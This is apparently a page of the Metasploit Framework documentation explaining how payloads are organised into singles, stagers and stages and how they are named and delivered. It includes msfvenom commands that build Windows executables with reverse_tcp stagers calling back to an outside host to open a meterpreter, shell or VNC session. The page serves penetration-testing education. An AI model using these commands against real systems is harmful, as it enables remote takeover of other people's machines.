 # How Payloads Work

Payload modules are stored in `modules/payloads/{singles,stages,stagers}/<platform>`. When the framework starts up, stages are combined with stagers to create a complete payload that you can use in exploits. Then, handlers are paired with payloads so the framework will know how to create sessions with a given communications mechanism.

Payloads are given reference names that indicate all the pieces, like so:
  - Staged payloads: `<platform>/[arch]/<stage>/<stager>`
  - Single payloads: `<platform>/[arch]/<single>`

This results in payloads like `windows/x64/meterpreter/reverse_tcp`. Breaking that down, the platform is `windows`, the architecture is `x64`, the final stage we're delivering is `meterpreter`, and the stager delivering it is `reverse_tcp`.

Note that architecture is optional because in some cases it is either unnecessary or implied. An example is `php/meterpreter/reverse_tcp`. Arch is unneeded for PHP payloads because we're delivering interpreted code rather than native.

### Singles

Single payloads are fire-and-forget. They can create a communications mechanism with Metasploit, but they don't have to. An example of a scenario where you might want a single is when the target has no network access -- a fileformat exploit delivered via USB key is still possible.

### Stagers

Stagers are a small stub designed to create some form of communication and then pass execution to the next stage. Using a stager solves two problems. First, it allows us to use a small payload initially to load up a larger payload with more functionality. Second, it makes it possible to separate the communications mechanism from the final stage so one payload can be used with multiple transports without duplicating code.

### Stages

Since the stager will have taken care of dealing with any size restrictions by allocating a big chunk of memory for us to run in, stages can be arbitrarily large. One advantage of that is the ability to write final-stage payloads in a higher-level language like C.

## Delivering stages

1. The IP address and port you want the payload to connect back to are embedded in the stager. As discussed above, all staged payloads are no more than a small stub that sets up communication and executes the next stage. When you create an executable using a staged payload, you're really just creating the stager. So the following commands would create functionally identical exe files:
```
    msfvenom -f exe LHOST=192.168.1.1 -p windows/meterpreter/reverse_tcp
    msfvenom -f exe LHOST=192.168.1.1 -p windows/shell/reverse_tcp
    msfvenom -f exe LHOST=192.168.1.1 -p windows/vncinject/reverse_tcp
```
(Note that these are *functionally* identical -- there is a lot of randomization that goes into it so no two executables are exactly the same.)

1. The Ruby side acts as a client using whichever transport mechanism
   was set up by the stager (e.g.: tcp, http, https).
   * In the case of a shell stage, Metasploit will connect the remote
     process's stdio to your terminal when you interact with it.
   * In the case of a Meterpreter stage, Metasploit will begin speaking
     the Meterpreter wire protocol.


